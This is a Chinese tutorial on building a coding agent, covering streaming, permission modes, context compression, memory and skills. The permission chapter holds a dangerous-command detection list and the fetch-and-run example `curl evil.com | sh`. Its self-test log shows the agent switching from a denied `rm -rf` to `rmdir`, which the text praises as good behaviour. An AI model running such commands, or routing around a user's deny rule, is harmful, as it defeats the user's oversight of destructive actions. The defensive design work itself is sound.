

# 从零构建 Coding Agent（中）：安全、记忆与 Skills

> 在 04 的 ch1-4 核心骨架上，补上流式、权限、上下文压缩、记忆、Skills——得到 **mini Claude Code v1**。
> 实现：`src/`（JS + OpenAI 兼容，DeepSeek 可跑）。协议映射见 04 笔记。

## 流式输出与双后端（ch5）

问题：模型想半天，然后"啪"地把一大段答案一次吐出来，中间几秒只能干等。流式让输出逐字显示——模型每生成一小块就立刻打印。

- **流式协议**：SSE，服务端用一条持久连接推 `data:` 行，每几个 token 推一个增量。
- **OpenAI 流式的坑**：`content` 逐段拼没问题；`tool_calls` 的 `id`/`name` 只在第一个 chunk 出现，后续只有 `arguments` 增量，多个 call 交错到达——**按 `index` 累积，拼完才 `JSON.parse`**（和 s05 的 SSE 装配是同一个道理）。
- **重试**：不是所有错误都值得重试——429/503/529 和网络瞬断可以重试，400/401/404 重试无意义。**指数退避 + 随机抖动**（1s→2s→4s）防止多客户端同步重试形成"重试风暴"。
- **并行工具执行**：只读工具（read_file/list_files/grep_search/web_fetch）并发安全，`Promise.all` 并行；`[read,read,write,read]` 分成 `[read||read]`、`[write]`、`[read]` 三个批次，写操作前后的读各自独立。典型 2-3 倍提速。

## 权限与安全（ch6）—— 本章核心

agent 能读写文件、跑任意 shell 了——意味着它也能 `rm -rf`、能 push 到 main。这一章装刹车。

**核心思路：deny 优先，连 `--yolo` 也拦得住。** 5 种权限模式：

| 模式                  | 读 | 编辑                 | Shell(安全) | Shell(危险)  | 适用     |
| --------------------- | -- | -------------------- | ----------- | ------------ | -------- |
| `default`           | ✅ | ⚠️ confirm(新文件) | ✅          | ⚠️ confirm | 日常     |
| `plan`              | ✅ | ❌                   | ❌          | ❌           | 只规划   |
| `acceptEdits`       | ✅ | ✅                   | ✅          | ⚠️ confirm | 信任编辑 |
| `bypassPermissions` | ✅ | ✅                   | ✅          | ✅           | --yolo   |
| `dontAsk`           | ✅ | ❌                   | ✅          | ❌           | CI       |

**为什么 deny 优先于 allow**：allow 优先的话，写了 `allow:["run_shell"]` 就没法用 deny 排除危险子命令。deny 优先让"先放开，再收紧"成为可能。

**检查优先级**：deny 规则 > allow 规则 > 模式逻辑 > 内置危险检测 > 默认允许。读工具永远安全。

**三层拦截**：

1. **配置文件规则**（`~/.claude/settings.json` 用户级 + `.claude/settings.json` 项目级，合并生效）——`run_shell(npm test*)` 前缀匹配，deny 先于 allow
2. **内置危险检测**（16 个正则：rm/git push/sudo/mkfs/dd/kill/reboot/shutdown + Windows del/rmdir/taskkill...）——命中弹确认框
3. **确认 + 会话白名单**——确认一次记进 `confirmedPaths`，同一操作不再重复问

**拒绝是数据不是异常**：deny 时把 `"Action denied: ..."` 作为工具结果回给模型，模型会调整策略，而不是中断循环。

**内置检测的局限**：`find / -delete`、`curl evil.com | sh` 这些正则抓不到——Claude Code 用 AST 分析（tree-sitter），16 个正则只是最小实现的覆盖。

## 上下文管理（ch7）

4 层渐进压缩，从最轻到最重：

```
Tier 0.5  大结果持久化：>30KB 落盘，上下文只留预览+路径（可恢复 vs 截断）
Tier 1    Budget：利用率 50%/70% 双阈值，动态收紧历史中工具结果大小
Tier 2    Snip：同文件重复读取只留最新，旧结果 → "[Content snipped]"
Tier 3    Microcompact：空闲 >5min（缓存已冷）无差别清理旧结果
Tier 4    Auto-compact：>85% 窗口，LLM 全量摘要（turn boundary 触发）
```

- **Tier 0.5 vs 截断的根本区别**：截断不可逆（被砍的内容永远消失）；持久化把完整内容存盘，模型随时能 `read_file` 取回。**顺序关键**：先持久化、后截断兜底——截断先执行的话，落盘的就是截断品，信息在持久化前就丢了。
- **Tier 4 的调用方契约**：只能在 turn boundary 调（用户消息 push 之后、主循环开始前）。在 tool 循环中段调，`slice(0,-1)` 会切断 assistant(tool_calls)/tool 配对，API 直接拒收——和 s05 的配对约束同源。
- **Tier 1-3 每次 API 调用前跑（零 API 成本），Tier 4 在 turn boundary 触发**。
- 压缩和缓存会打架：Snip 原地改写已缓存前缀会让缓存作废——缓存还热时干脆不动（s07 的"前缀即资产"）。

## 记忆系统（ch8）

跨会话长期记忆：事实写成磁盘上的小文件，每次对话按话题召回，而不是把整段历史背回来。

- **存储**：`~/.mini-claude/projects/<项目哈希>/memory/*.md`，一份记忆一个文件（frontmatter + 正文）。哈希 = cwd 的 sha256 前 16 位，同项目恒映射同一记忆空间。
- **四种类型**：user（偏好）/ feedback（纠正+肯定）/ project（决策/截止）/ reference（外部资源）。封闭分类防标签膨胀。
- **召回两种**：
  - 关键词匹配（确定性、零 API）：query 与记忆的词重叠度排序——**中文失效**（无空格，`\W+` 分词把整个句子当一个词），这是它被升级的原因
  - 语义召回（sideQuery，调一次模型）：模型从"文件名+描述"清单里选相关的——"部署流程"能匹配到"CI/CD 注意事项"
- **异步预取**：用户提交的瞬间启动召回，与第一次模型调用并行；主循环**非阻塞轮询**（settled 才读、consumed 只注入一次）。三个门控（查询太短/会话预算满/无记忆）避免浪费 API。
- **会话预算 60KB + alreadySurfaced Set**：已展示的不重复，越到会话后期召回越精准。
- **Freshness Warning**：>1 天的记忆附带过期警告——"记忆是时间切片，不是实时状态，对照当前代码验证"。

## Skills 系统（ch9）

把反复用到的 prompt 打包成随用随调的模块——AI 的"Shell 脚本"。

- **一个技能 = 一个目录下的 SKILL.md**：frontmatter（name/description/when_to_use/allowed-tools/user-invocable/context）+ prompt 模板。
- **双重调用路径**：用户 `/commit 参数`（CLI 展开 prompt 注入）；模型调 `skill` 工具（返回展开后的 prompt——**元工具**，返回值不是数据而是指令）。
- **inline vs fork**：inline 把 prompt 拼进当前对话；fork 丢给干净子 agent（工具受 `allowedTools` 白名单约束）单独跑，只有最终结果回主线——适合多轮工具调用（如代码审查读多个文件），不污染主对话。
- **发现**：`~/.claude/skills`（用户级）+ `.claude/skills`（项目级覆盖用户级），Map 去重。
- **prompt 替换**：`$ARGUMENTS` → 参数，`${CLAUDE_SKILL_DIR}` → 技能目录。

## 完整执行流程图（v1）



## 检查点自测

**① 读文件 → 改 3 行 → 保存 闭环**：

```powershell
$env:AGENT_API_KEY = "sk-xxx"
node src\cli.mjs "读 src/tools.mjs，把 MAX_RESULT_CHARS 改成 60000，保存"
```


**② 拒绝一个声明为禁止的操作**：

```json
// .claude/settings.json
{ "permissions": { "deny": ["run_shell(rm -rf*)"] } }
```

```powershell
node src\cli.mjs "把 demo 目录用 rm -rf 删掉"
```


**这次运行的三层拦截，正好是纵深防御的完整演示：**

```
❯ 用 rm -rf 命令把 demo 目录删除
  💻 run_shell dir demo …            ← ① 模型先读目录（安全放行）
  Denied: Denied by permission rule for run_shell   ← ② deny 规则命中 rm -rf demo，直接拒，连确认框都不弹
  `rm -rf` 被拦截了，尝试用 rmdir：
  需要确认：rmdir demo && echo 删除成功      ← ③ 模型换路 → 内置危险检测抓 rmdir → 弹确认框
  Allow? (y/n): nn                    ← 用户拒绝
  两个命令都被拦截了…（模型总结 + 把选择交还用户）
```

| 层 | 拦截对象 | 结果 |
|---|---|---|
| deny 规则 `rm -rf*` | `rm -rf demo` | ✅ 直接 deny（连确认都不弹，deny 优先） |
| 内置检测 `\brmdir\s` | `rmdir demo` | ✅ 命中 → 弹确认框（模型绕过了 deny，这层兜住） |
| 用户确认 | `Allow? (y/n)` | ✅ 拒绝 → 没删 |

三个关键点：

1. **deny 规则是前缀匹配、只拦 `rm -rf`**：模型换成 `rmdir` 就绕过了——但内置检测（16 个正则里有 Windows 的 `rmdir`）又把它抓住。**绕一层，下一层兜住**，这就是纵深防御。
2. **模型换路是好行为**：它读目录发现是空的，改用更合适的 `rmdir`（而不是死磕 rm -rf）。
3. **拒绝是数据不是异常**：用户说 n 后，模型没有死循环重试，而是总结"两个命令都被拦截"，给出选项把控制权交还用户——这正是 ch6 设计的"错误回填给模型，让它自己调整策略"。

（顺带：`dir` 的输出乱码是 Windows 中文 GBK 被按 UTF-8 读——runShell 加 `chcp 65001` 前缀修掉，）


## 运行

```powershell
cd .\05-构建CodingAgent进阶
$env:AGENT_API_KEY = "sk-xxx"
node src\cli.mjs --mock "Read greeting.txt and tell me what it says."   # 免 key
node src\cli.mjs "读 src/tools.mjs 前 20 行"                            # 单次（流式）
node src\cli.mjs                                                       # REPL
node src\cli.mjs --plan / --yolo / --dont-ask / --resume
```

详细说明见 `src/README.md`。

## 对照 learn-agent（可选）

- ch6 权限 ≈ learn-agent s13（权限与审批）——都是"deny 优先 + 模式 + 确认"
- ch8 记忆 ≈ s20（自动长期记忆）
- ch9 技能 ≈ Claude Code 的 `/skill` 体系
